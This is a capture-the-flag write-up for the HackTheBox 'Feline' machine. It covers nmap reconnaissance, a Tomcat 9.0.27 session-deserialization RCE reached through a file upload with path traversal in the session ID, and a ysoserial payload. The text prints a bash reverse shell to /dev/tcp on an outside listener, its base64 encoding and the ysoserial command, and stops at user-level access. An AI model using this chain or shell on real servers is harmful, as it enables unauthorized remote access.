


Feline HackTheBox
nmap scan
# nmap -sC -sV -Ao nmap 10.10.10.205
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 12:28 CEST
Nmap scan report for 10.10.10.205
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| 256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_ 256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open http Apache Tomcat 9.0.27
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.87 seconds
open port
- port 22 as ssh as usual
- port 8080 with a running tomat instance at version 9.0.27
tomcat 9.0.27
A little bit of looking around reveals that the running version of tomcat seems to be vulnerable to a rce exploit. 1
file upload
Looking around and playing around reveals a file upload service at http://10.10.10.205:8080/service/. It gets an email address and a file. The service says it checks the file for malicious content and sends a report to the email address.
Playing around with burpsuite reveals that the service tries to store those files under /opt/samples/uploads and uses apache/commons/fileupload to do that.

combining
Combining the RCE exploit with the findings of the file upload we can create a reverse shell with ysoserial, upload it and call it with path traversal of the SESSIONID field in the request.
exploiting user
Starting with the reverse shell file we start up with ysoserial to create the payload. Because we don’t know the Verison of apache/commons/fileupload we have to try serveral CommonsCollectionsX provided by ysoserial. As reverse shell we’re using a bash shell which we base64 encode.
- base64 of bash revese shell
# echo 'bash -i >& /dev/tcp/10.10.14.18/4242 0>&1' | base64 YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC80MjQyIDA+JjEK - create reverse shell with ysoserial
java -jar ysoserial-master.jar CommonsCollections2 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC80MjQyIDA+JjEK}|{base64,-d}|{bash,-i}" > shell.session
We take that file and upload it using the intended way. Thereupon we request any site on the tomat site and manipulate the SESSIONID using burpsuite. The value is equivalent to the previous found directory where the files are uploaded to + the file name of the created reverse shell subtracted by the .session file-extrension. This is because tomcat automatically appends .session to the requested SESSIONID.

Start a listener on the local maschine and forward the manipulated request. Voila! User level of Fiola.